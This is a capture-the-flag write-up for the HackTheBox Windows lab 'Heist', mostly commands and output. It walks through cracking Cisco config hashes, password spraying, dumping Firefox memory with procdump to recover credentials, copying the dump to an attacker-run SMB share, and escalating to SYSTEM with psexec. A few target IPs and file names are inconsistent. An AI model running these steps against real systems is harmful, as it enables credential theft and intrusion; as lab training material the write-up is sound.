


# CTF Penetration Testing

## Platform: HackTheBox

### Machine: [Heist](https://www.hackthebox.com/machines/Heist)


- Machine type:  Windows
- Machine difficulty: 🟩 Easy (<span style="color:#f4b03b;">4.7</span>)

#### Tools Used

**Linux**:
- evil-winrm
- hashid
- impacket-psexec
- impacket-smbserver
- john
- netexec
- nmap
- strings

**Windows**:
- net.exe
- procdump64.exe

#### Skills Required

- Enumeration

#### Skills Learned

- [Cisco Type 7 Hash Decrypt](https://github.com/theevilbit/ciscot7)
- [ProcDump](https://softwaremechanic.me/posts/how-to-procdump/?utm_source=chatgpt.com)

#### Machine Writeup


`ifconfig tun0`:
```
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.28📌 netmask 255.255.254.0  destination 10.10.14.28
        inet6 fe80::a1cf:4085:cbfb:11e9  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::101a  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1  bytes 48 (48.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`fping 10.10.11.149`:
```
10.10.10.149 is alive
```

`sudo nmap -Pn -sSV -p- -T5 10.10.10.149`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-09 04:02 EST
Nmap scan report for 10.10.10.149
Host is up (0.13s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0🌐
135/tcp   open  msrpc         Microsoft Windows RPC🌐
445/tcp   open  microsoft-ds?🌐
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)🌐
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 226.59 seconds
```

`sudo nmap -Pn -sSVC -p80 -T5 10.10.10.149`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-09 04:07 EST
Nmap scan report for 10.10.10.149
Host is up (0.14s latency).

PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
| http-title: Support Login Page📌
|_Requested resource was login.php📌

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.69 seconds
```

`netexec smb 10.10.11.41`:
```
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)📌
```

`firefox http://10.10.10.149/ &`


`vim ./cisco_users.txt`:
```
administrator
hazard
```


`curl http://10.10.10.149/attachments/config.txt`:
```
version 12.2
no service pad
service password-encryption
!
isdn switch-type basic-5ess
!
hostname ios-1
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
!
ip ssh authentication-retries 5
ip ssh version 2
!
!
router bgp 100
 synchronization
 bgp log-neighbor-changes
 bgp dampening
 network 192.168.0.0Â mask 300.255.255.0
 timers bgp 3 9
 redistribute connected
!
ip classless
ip route 0.0.0.0 0.0.0.0 192.168.0.1
!
!
access-list 101 permit ip any any
dialer-list 1 protocol ip list 101
!
no ip http server
no ip http secure-server
!
line vty 0 4
 session-timeout 600
 authorization exec SSH
 transport input ssh
```

`hashid '$1$pdQG$o8nrSzsGXeaduXrjlvKc91'`:
```
Analyzing '$1$pdQG$o8nrSzsGXeaduXrjlvKc91'
[+] MD5 Crypt 
[+] Cisco-IOS(MD5)🔍 
[+] FreeBSD MD5 
```

`echo '$1$pdQG$o8nrSzsGXeaduXrjlvKc91' | tee ./cisco_ios_hash.txt`:
```
$1$pdQG$o8nrSzsGXeaduXrjlvKc91
```

`john --wordlist=/usr/share/wordlists/rockyou.txt ./cisco_ios_hash.txt`:
```
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stealth1agent🔑     (?)     
1g 0:00:00:19 DONE (2025-01-09 04:29) 0.05115g/s 179301p/s 179301c/s 179301C/s stealthy001..steak7893
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

`hashid '0242114B0E143F015F5D1E161713'`:
``` 
Analyzing '0242114B0E143F015F5D1E161713'
[+] Unknown hash
```
❌




`vim ./cisco_config_passwords.txt`:
```
stealth1agent
$uperP@ssword
Q4)sJu\Y8qz*A3?d
```

`netexec smb 10.10.10.149 -u ./cisco_users.txt -p ./cisco_passwords.txt`:
```
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\administrator:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent🔑
```

`netexec winrm 10.10.10.149 -u 'hazard' -p 'stealth1agent'`:
```
WINRM       10.10.10.149    5985   SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
WINRM       10.10.10.149    5985   SUPPORTDESK      [-] SupportDesk\hazard:stealth1agent
```
❌

`netexec smb 10.10.10.149 -u 'hazard' -p 'stealth1agent' --shares`:
```
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [*] Enumerated shares
SMB         10.10.10.149    445    SUPPORTDESK      Share           Permissions     Remark
SMB         10.10.10.149    445    SUPPORTDESK      -----           -----------     ------
SMB         10.10.10.149    445    SUPPORTDESK      ADMIN$                          Remote Admin
SMB         10.10.10.149    445    SUPPORTDESK      C$                              Default share
SMB         10.10.10.149    445    SUPPORTDESK      IPC$            READ            Remote IPC
```

`netexec smb 10.10.10.149 -u 'hazard' -p 'stealth1agent' --rid-brute`:
```
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      500: SUPPORTDESK\Administrator (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      501: SUPPORTDESK\Guest (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      513: SUPPORTDESK\None (SidTypeGroup)
SMB         10.10.10.149    445    SUPPORTDESK      1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1009: SUPPORTDESK\support (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1012: SUPPORTDESK\Chase (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1013: SUPPORTDESK\Jason (SidTypeUser)
```

`netexec smb 10.10.10.149 -u 'hazard' -p 'stealth1agent' --rid-brute | grep 'SidTypeUser' | awk '{print $6}' | awk -F '\' '{print $2}' | awk '{print tolower($0)}' | tee ./users.txt`:
```
administrator
guest
defaultaccount
wdagutilityaccount
hazard
support
chase
jason
```

`netexec smb 10.10.10.149 -u ./users.txt -p ./cisco_passwords.txt --continue-on-success`:
```
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)

[...]

SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\support:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d🔑 
```

`netexec winrm 10.10.10.149 -u 'chase' -p 'Q4)sJu\Y8qz*A3?d'`:
```
WINRM       10.10.10.149    5985   SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
WINRM       10.10.10.149    5985   SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)🚀
```

`evil-winrm -i 10.10.10.149 -u 'chase' -p 'Q4)sJu\Y8qz*A3?d'`:
```
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chase\Documents>
```
🐚


`whoami`:
```
supportdesk\chase
```

`whomai /all`:
```
USER INFORMATION
----------------

User Name         SID
================= ==============================================
supportdesk\chase S-1-5-21-4254423774-1266059056-3197185112-1012


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

`dir C:\\Users\chase\Desktop`:
```
    Directory: C:\Users\chase\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/22/2019   9:08 AM            121 todo.txt
-ar---         1/9/2025   2:28 PM             34 user.txt
```

`type C:\\Users\chase\Desktop\user.txt`:
```
310ea***************************🚩
```

`type C:\\Users\chase\Desktop\todo.txt`:
```
Stuff to-do:
1. Keep checking the issues list.🔍
2. Fix the router config.

Done:
1. Restricted access for guest user.
```

`dir C:\\Users\`:
```
    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        4/22/2019   6:11 PM                Administrator
d-----        4/22/2019   6:11 PM                Chase
d-----        4/22/2019   7:26 AM                Hazard
d-r---        4/21/2019   9:37 AM                Public
```

`get-process`:
```
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    457      18     2236       5380               368   0 csrss
    290      13     2300       5188               480   1 csrss
    357      15     3480      14204              4252   1 ctfmon
    252      14     3956      13148              3800   0 dllhost
    166       9     1876       9468       0.05   6896   1 dllhost
    618      32    29128      57820               964   1 dwm
   1490      58    23800      78632              5160   1 explorer
    356      25    16456      39196       0.22   6072   1 firefox
   1083      70   144200     221152       7.25   6560   1 firefox
    347      19    10200      35012       0.13   6668   1 firefox
    401      33    31644      90844       1.34   6816   1 firefox
    378      28    21696      58008       0.45   7096   1 firefox
     49       6     1504       3872               776   0 fontdrvhost
     49       6     1796       4640               784   1 fontdrvhost
      0       0       56          8                 0   0 Idle
    970      23     5972      14764               632   0 lsass
    223      13     2992       9976              2752   0 msdtc
      0      12      280      15056                88   0 Registry
    274      14     3008      14592              4980   1 RuntimeBroker
    144       8     1600       7284              5676   1 RuntimeBroker
    303      16     5472      16676              5752   1 RuntimeBroker
    670      32    19972      62016              5616   1 SearchUI
    537      11     4872       9216               612   0 services
    705      29    15284      52012              5524   1 ShellExperienceHost
    436      17     4804      23712              4728   1 sihost
     53       3      532       1152               264   0 smss
    471      23     5780      15880              2540   0 spoolsv
    332      16     5004      13612                60   0 svchost
    223      11     2848      10952               548   0 svchost
    149       9     1804      11504               608   0 svchost

[...]

   1883       0      192        108                 4   0 System
    210      20     3968      12148              4800   1 taskhostw
    167      11     2900      10664              2812   0 VGAuthService
    142       8     1676       6692              2820   0 vm3dservice
    136       9     1792       7148              3248   1 vm3dservice
    383      22     9332      21700              2832   0 vmtoolsd
    236      18     5092      14912              6244   1 vmtoolsd
    171      11     1464       6412               472   0 wininit
    280      13     2816      12428               536   1 winlogon
    342      16     8500      17976              3744   0 WmiPrvSE
   1160      27    63136      79712       1.20   2564   0 wsmprovhost
```

`get-process -name 'firefox'`:
```
Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    356      25    16456      39196       0.22   6072   1 firefox🔍
   1067      70   148724     224940       7.31   6560   1 firefox
    347      19    10200      35012       0.13   6668   1 firefox
    401      33    32176      92160       1.34   6816   1 firefox
    378      28    22020      58384       0.45   7096   1 firefox
```


`locate -i 'procdump64.exe'`:
```
/home/nabla/tools/ProcDump/procdump64.exe
```

`cp /home/nabla/tools/ProcDump/procdump64.exe ./`

`upload procdump64.exe`:
```
Info: Uploading /home/nabla/procdump64.exe to C:\Users\Chase\Documents\procdump64.exe
                                        
Data: 566472 bytes of 566472 bytes copied
                                        
Info: Upload successful!
```


`./procdump64.exe -accepteula -ma 6072 ./firefox.dmp`:
```
ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[16:22:34] Dump 1 initiated: C:\Users\Chase\Documents\firefox.dmp
[16:22:34] Dump 1 writing: Estimated dump file size is 298 MB.
[16:22:40] Dump 1 complete: 298 MB written in 5.4 seconds
[16:22:40] Dump count reached.
```


`mkdir ./smbshare`

`impacket-smbserver -user 'smbuser' -password 'smbpass' -smb2support 'smbshare' ./smbshare`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```


`net.exe use K: \\10.10.14.28\smbshare /user:smbuser smbpass`:
```
The command completed successfully.
```

`copy ./firefox.dmp K:\\`

`dir K:\\`:
```
    Directory: K:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         1/9/2025   4:22 PM      304802397 firefox.dmp
```


`burpsuite &`



`file ./smbshare/firefox.dmp`:
```
./smbshare/firefox.dmp: Mini DuMP crash report, 18 streams, Thu Jan  9 10:52:34 2025, 0x461826 type
```

`strings ./smbshare/firefox.dmp | grep 'login_password'`:
```
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=🔑
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```

`netexec smb 10.10.10.149 -u ./users.txt -p '4dD!5}x/re8]FBuZ'`:
```
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\administrator:4dD!5}x/re8]FBuZ (Pwn3d!)🚀
```

`impacket-psexec 'administrator:4dD!5}x/re8]FBuZ@10.10.10.149'`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.149.....
[*] Found writable share ADMIN$
[*] Uploading file jTcqhyxz.exe
[*] Opening SVCManager on 10.10.10.149.....
[*] Creating service eGtC on 10.10.10.149.....
[*] Starting service eGtC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.437]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
🐚


`whoami`:
```
nt authority\system
```

`dir C:\Users\Administrator\Desktop`:
```
 Volume in drive C has no label.
 Volume Serial Number is FA65-CD36

 Directory of C:\Users\Administrator\Desktop

02/18/2021  04:00 PM    <DIR>          .
02/18/2021  04:00 PM    <DIR>          ..
01/09/2025  02:28 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,444,301,824 bytes free
```

`type C:\Users\Administrator\Desktop\root.txt`:
```
9023e***************************🚩
```


---
---
